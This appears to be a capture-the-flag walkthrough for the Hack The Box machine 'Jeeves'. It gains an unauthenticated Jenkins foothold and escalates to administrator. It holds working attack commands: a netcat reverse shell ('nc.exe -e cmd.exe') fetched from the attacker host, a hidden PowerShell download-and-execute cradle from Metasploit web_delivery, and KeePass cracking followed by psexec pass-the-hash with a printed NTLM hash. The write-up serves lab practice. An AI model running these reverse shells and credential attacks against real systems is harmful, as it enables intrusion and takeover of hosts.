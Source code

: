 1. Recon
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```
2. Use Dirbuster find out the directories running on port 50000
3. /askjeeves/ has a Jekins app running
4. to get admin without authenticating:
http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/

# Exploitation Method 1

1. On Jenkins create a new Item “Execute Windows bash command” and select “Freestyle Project”
2. Select “Add building Step” and select  “Execute Windows bash command” 
3. On the bash console type powershell wget "http://10.10.14.14/nc.exe" -outfile "nc.exe" 
    nc.exe -e cmd.exe 10.10.14.14 9999
4. Start apache and place nc.exe for download 
5. Set up nc to listen up
6. Run the shell on jenkins 

Optional and recommended: you can also create a msfvenom shell and multihadler to catch it 

# Exploitation Method 2
1. On Jenkins, create a reverser Groovy shell on the “script console” under “manage Jenkins” tab and run it
2. Set up an nc listener to recieve the shell
3. Spawn a meterpreter shell:
```
use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) > set target 2
msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 10.10.14.28
msf exploit(multi/script/web_delivery) > set srvhost 10.10.14.28
msf exploit(multi/script/web_delivery) > exploit
```
4. We paste the following generated code into the netcat listener and meterpreter session should be created
```
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
```

# Privilege Escalation Method 1
1. Download CEH.kdbx keepass file
2. Use john2keepass to create a hashdump file
3. crack the has using john format=KeePass and wordlist=rockyou.txt
4. we obtain the pass : CEH:moonshine1
5. Install Keepass2 : apt-get install keepass2
6. NTLM hash: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
7. Using msf windows smb to connect using the keepass creds   
```
use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > set rhost 10.10.10.63
msf exploit(windows/smb/psexec) > set smbuser administrator
msf exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
msf exploit(windows/smb/psexec) > set lport 8888
msf exploit(windows/smb/psexec) > exploit
8. There is an alternate data stream applied to the ROOT flag. to view flag
dir /R
more < hm.txt:root.txt

| Flag | Hash |
| ROOT | afbc5bd4b615a60648cec41c6ac92530 |
| USER | e3232272596fb47950d59c4cf1e7066a |

# References

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
https://www.hackingarticles.in/hack-the-box-challenge-jeeves-walkthrough/
